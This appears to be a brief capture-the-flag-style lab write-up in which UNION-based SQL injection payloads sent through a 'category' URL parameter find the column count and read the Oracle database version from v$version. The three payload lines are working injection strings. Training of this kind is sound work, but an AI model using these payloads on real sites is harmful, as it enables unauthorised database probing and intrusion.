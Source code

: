 # lab-querying-database-version-oracle

`/filter?category=Pets'+UNION+SELECT+NULL+FROM+dual--`: Internal Server Error

`/filter?category=Pets'+UNION+SELECT+NULL,+NULL+FROM+dual--`: Ok (2 columns)

`/filter?category=Pets'+UNION+SELECT+Banner,+NULL+FROM+v$version--`: Solved
